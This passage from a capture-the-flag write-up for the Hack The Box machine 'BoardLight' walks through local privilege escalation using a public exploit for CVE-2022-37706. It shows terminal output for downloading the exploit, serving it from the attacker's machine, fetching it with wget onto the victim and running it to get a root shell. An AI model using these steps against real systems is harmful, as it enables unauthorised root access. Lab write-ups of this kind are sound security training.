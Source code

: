 {% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
--2025-02-14 23:00:16--  https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 2606:50c0:8003::154, 2606:50c0:8000::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/plain]
Saving to: ‘exploit.sh’

exploit.sh                                                 100%[========================================================================================================================================>]     709  --.-KB/s    in 0s      

2025-02-14 23:00:16 (41.9 MB/s) - ‘exploit.sh’ saved [709/709]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer the exploit to the victim machine.

{% raw %}
```sh
larissa@boardlight:~$ wget 10.10.16.12:8000/exploit.sh
--2025-02-14 04:01:05--  http://10.10.16.12:8000/exploit.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                                 100%[========================================================================================================================================>]     709  --.-KB/s    in 0s      

2025-02-14 04:01:05 (47.7 MB/s) - ‘exploit.sh’ saved [709/709]

larissa@boardlight:~$ chmod +x exploit.sh
```
{% endraw %}

<br />
Run the exploit.

{% raw %}
```sh
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```
{% endraw %}